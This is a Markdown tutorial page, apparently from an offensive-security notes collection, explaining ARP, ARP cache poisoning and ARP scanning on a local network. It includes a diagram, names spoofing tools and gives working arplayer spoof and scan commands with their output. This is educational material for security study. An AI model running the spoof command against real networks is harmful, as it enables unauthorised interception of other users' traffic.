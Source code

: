# 802.3 (Ethernet/ARP)

## ARP

Link: [https://zer1t0.gitlab.io/posts/attacking\_ad/#arp](https://zer1t0.gitlab.io/posts/attacking\_ad/#arp)

[ARP](https://en.wikipedia.org/wiki/Address\_Resolution\_Protocol) (Address Resolution Protocol) is a link layer protocol heavily used in network that allows to map the relation between the IP address of a computer and its MAC (Media Access Control) address.

In order to do that, the client machine sends an Ethernet broadcast ARP request to the local network, asking for the one that has the target IP address. Then the computer with that IP should respond identifying its MAC. Finally the client sends the application packets to that Ethernet address.

### ARP spoof

An attacker could respond to all the ARP requests trying to impersonate other computers. However, computers do not perform a ARP request any time they need to communicate with the target, but they keep the previous responses in a local ARP cache.

```
$ arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
192.168.1.101            ether   e4:fd:a1:09:bf:a1   C                     wlp1s0
192.168.1.1              ether   00:e0:4c:d8:ca:89   C                     wlp1s0
```

By keeping the ARP cache, computers reduce the number of request that it needs to perform. However, computers also listen ARP responses for changes without performing requests, so an attacker could send periodic replies in order to poison the victim ARP cache.

```

        1)  I am 192.168.1.1           1)    I am 192.168.1.101    
         (MAC de:ad:be:ef:13:37)        (MAC de:ad:be:ef:13:37)
     .--------------<<<------------. .------------->>>---------------.
     |                             | |                               |
     v                             ^ ^                               v
   .---.   2) To 192.168.1.1      .---.   3) To 192.168.1.1        .---.
  /   /| -------->>>--------->   /   /| -------->>>------------>  /   /|
 .---. |                        .---. |                          .---. |
 |   | '   5) To 192.168.1.101  |   | '   4) To 192.168.1.101    |   | '
 |   |/  <-------<<<----------  |   |/  <-------<<<------------- |   |/ 
 '---'                          '---'                            '---'  
192.168.1.101                   192.168.1.137                   192.168.1.1
e4:fd:a1:09:bf:a1            de:ad:be:ef:13:37              00:e0:4c:d8:ca:89
```

You can perform an ARP spoofing/poisoning attack with tools like [ettercap](https://www.ettercap-project.org), [bettercap](https://github.com/bettercap/bettercap), [arpspoof](https://github.com/smikims/arpspoof) or [arplayer](https://github.com/Zer1t0/arplayer).

```
$ ./arplayer spoof -I wlp1s0 -vvv -F -b 192.168.1.101 192.168.1.1
Spoofing - telling 192.168.1.101 (e4:fd:a1:09:bf:a1) that 192.168.1.1 is 00:e0:4c:d8:ca:89 (192.168.1.107) every 1.0 seconds (until Ctrl-C)
INFO - 192.168.1.1-de:ad:be:ef:13:37 -> 192.168.1.101-e4:fd:a1:09:bf:a1
INFO - 192.168.1.101-de:ad:be:ef:13:37 -> 192.168.1.1-00:e0:4c:d8:ca:89
INFO - 192.168.1.1-de:ad:be:ef:13:37 -> 192.168.1.101-e4:fd:a1:09:bf:a1
INFO - 192.168.1.101-de:ad:be:ef:13:37 -> 192.168.1.1-00:e0:4c:d8:ca:89
INFO - 192.168.1.1-de:ad:be:ef:13:37 -> 192.168.1.101-e4:fd:a1:09:bf:a1
INFO - 192.168.1.101-de:ad:be:ef:13:37 -> 192.168.1.1-00:e0:4c:d8:ca:89
```

### ARP scan

Other interesting possibility using ARP is to request all the IPs in the network in order to check the ARP responses and discover what hosts are active. This technique is known as ARP scan.

```
$ ./arplayer scan -I wlp1s0 -w 10 -t 1000
192.168.1.1 00:e0:4c:d8:ca:89
192.168.1.101 e4:fd:a1:09:bf:a1
```
